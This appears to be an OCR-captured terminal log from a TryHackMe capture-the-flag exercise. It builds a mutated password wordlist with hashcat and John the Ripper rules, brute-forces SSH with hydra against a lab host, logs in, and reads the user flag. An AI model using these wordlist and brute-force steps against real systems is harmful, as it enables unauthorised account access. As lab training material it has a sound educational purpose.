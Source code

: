 
```bash
:~# echo 'ettubrute' > pass.txt
:~# echo '$!' > append.txtcat hash
:~# locate best64
/opt/hashcat/rules/best64.rule
/opt/john/rules/best64.rule
:~# hashcat --stdout pass.txt -r /usr/local/share/doc/hashcat/rules/best64.rule -r append.txt > hashcat_list.txt
cat hashcat_list.txt | wc -l
77
:~# cat hashcat_list.txt
ettubrute!
eturbutte!
ETTUBRUTE!
Ettubrute!
ettubrute0!
ettubrute1!
ettubrute2!
ettubrute3!
ettubrute4!
ettubrute5!
ettubrute6!
ettubrute7!
ettubrute8!
ettubrute9!
ettubrute00!
...
:~# hydra -l adrian -P hashcat_list.txt 10.10.4.197 ssh -V -t 6
...
[22][ssh] host: 10.10.4.197   login: adrian   password: theettubrute!
....
:~# john --rules=best64 --wordlist=pass.txt --stdout > john_list.txt
...
:~# cat john_list.txt | wc -l
76
:~# sed -i 's/$/!/' john_list.txt 
:~# cat john_list.txt | grep the
theettubrute!
...
:~# ssh adrian@10.10.4.197
...
adrian@ip-10-10-4-197:~$ cat /home/adrian/user.txt
THM{PoI$0n_tH@t_L0g}
```



```bash
:~$ cat punch_in.sh
#!/bin/bash

/usr/bin/echo 'Punched in at '$(/usr/bin/date +"%H:%M") >> /home/adrian/punch_in
```

